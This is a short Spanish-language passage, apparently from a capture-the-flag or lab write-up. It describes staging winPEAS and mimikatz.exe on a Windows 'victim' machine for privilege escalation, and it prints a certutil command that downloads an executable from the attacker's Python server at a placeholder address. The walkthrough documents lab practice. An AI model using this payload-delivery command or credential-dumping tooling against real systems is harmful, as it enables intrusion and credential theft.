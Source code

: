 ![alt text](../../image/puppy28.png)

El archivo que enviaré a la maquina victima es winPeasany.py, este archivo hace un analisis de los posibles puntos críticos donde puede explotarse una vulnerabilidad y obtener la escalada de privilegios.

Levanto un servidor con python y con el siguiente comando hacia windows obtengo el archivo que necesito, subiré el archivo mimikatz.exe tambien

![alt text](../../image/puppy29.png)

```powershell
certutil -urlcache -split -f http://<tu-IP>:<Puerto>/archivo.exe archivo.exe
```

![alt text](../../image/puppy30.png)
